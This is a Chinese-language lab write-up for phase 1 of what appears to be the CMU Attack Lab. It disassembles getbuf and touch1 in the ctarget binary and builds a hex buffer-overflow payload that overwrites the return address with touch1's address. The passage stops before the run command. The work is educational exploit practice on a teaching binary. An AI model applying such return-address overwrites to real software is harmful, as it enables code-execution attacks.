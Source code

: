 

### 运行栈示意图

<img src="/Users/zhaochen20/Library/Application Support/typora-user-images/image-20211113130528447.png" alt="image-20211113130528447" style="zoom:50%;" />



### 实验过程

使用命令 `objdump -d ctarget > ctarget.d` 得到反汇编代码 `ctarget.d`。查找 `getbuf` 函数信息如下：

```assembly
   00000000004017fe <getbuf>:
  4017fe:	48 83 ec 28          	sub    $0x28,%rsp
  401802:	48 89 e7             	mov    %rsp,%rdi
  401805:	e8 94 02 00 00       	callq  401a9e <Gets>
  40180a:	b8 01 00 00 00       	mov    $0x1,%eax
  40180f:	48 83 c4 28          	add    $0x28,%rsp
  401813:	c3                   	retq   

```

缓冲区大小为$40_{(10)}$，也即$Ox28$，所以是40个字节(byte)，一个字节八个比特(bit)，即$2^8$，而十六进制下，$2^8=16^2$，故而十六进制下两个数字，一个字符即为一个字节(byte)。在40个字符后的8个字符存储的即为函数返回地址。



查找 `touch1` 函数位置：

```shell
    0000000000401814 <touch1>:
  401814:	48 83 ec 08          	sub    $0x8,%rsp
  401818:	c7 05 da 2c 20 00 01 	movl   $0x1,0x202cda(%rip)        # 6044fc <vlevel>
  40181f:	00 00 00 
  401822:	48 8d 3d a8 19 00 00 	lea    0x19a8(%rip),%rdi        # 4031d1 <_IO_stdin_used+0x301>
  401829:	e8 92 f4 ff ff       	callq  400cc0 <puts@plt>
  40182e:	bf 01 00 00 00       	mov    $0x1,%edi
  401833:	e8 d6 04 00 00       	callq  401d0e <validate>
  401838:	bf 00 00 00 00       	mov    $0x0,%edi
  40183d:	e8 ee f5 ff ff       	callq  400e30 <exit@plt>
```



故而我们只需要先将缓冲区40个字符填充完整，在随后的8个字符填入`touch1`的函数地址即可。从而构造如下攻击代码，并保存为`1.txt`：

```shell
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
14 18 40 00 00 00 00 00
```



随后在终端运行如下命令，触发异常：
